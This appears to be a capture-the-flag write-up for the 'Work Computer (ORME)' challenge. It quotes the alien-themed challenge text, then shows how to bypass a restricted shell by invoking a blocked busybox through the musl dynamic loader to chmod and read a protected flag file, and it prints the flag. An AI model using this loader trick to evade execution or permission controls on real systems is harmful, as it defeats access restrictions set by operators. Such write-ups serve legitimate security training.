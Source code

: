 # Work Computer (ORME)

## Description

With the confidence of conviction and decision making skills that made you a contender for Xenon's Universal takeover
council, now disbanded, you forge ahead to the work computer.   This machine announces itself to you, surprisingly with
a detailed description of all its hardware and peripherals. Your first thought is "Why does the display stand need to
announce its price? And exactly how much does 999 dollars convert to in Xenonivian Bucklets?" You always were one for
the trivialities of things.

Also presented is an image of a fascinating round and bumpy creature, labeled "Cauliflower for cWo" - are "Cauliflowers"
earthlings?  Your 40 hearts skip a beat - these are not the strange unrelatable bipeds you imagined earthings to be..
this looks like your neighbors back home. Such curdley lobes. Will it be at the party?

SarahH, who appears to be  a programmer with several clients, has left open a terminal.  Oops.  Sorry clients!  Aliens
will be poking around attempting to access your networks.. looking for Cauliflower.   That is, *if* they can learn to
navigate such things.

## Solution

From the challenge title it is clear that we have to read the `ORME.flag` file of the [Work Computer challenge](../work_computer/).

```
total 12
drwxrwxrwt    2 0        0               80 Jun 24 07:46 .
drwxr-xr-x   20 0        0             4096 Jun 13 14:28 ..
----------    1 1338     1338            33 Jun 24 07:46 ORME.flag
-r--------    1 1338     1338            28 Jun 24 07:46 README.flag
```

Unfortunately, we do not have read permissions for that file. `chmod` is also not available. One way to bypass this is
to call `busybox`. However, this just prints `busybox can not be called for alien reasons.`.

The following command calls `busybox` via the dynamic loader:

```
/lib/ld-musl-x86_64.so.1 /bin/busybox chmod 644 /challenge/ORME.flag
```

Now that the file is readable the [previous exploit](../work_computer/) can be used to print the file. Alternatively
`/lib/ld-musl-x86_64.so.1 /bin/busybox cat /challenge/ORME.flag` also works. This prints the flag
`CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}`.
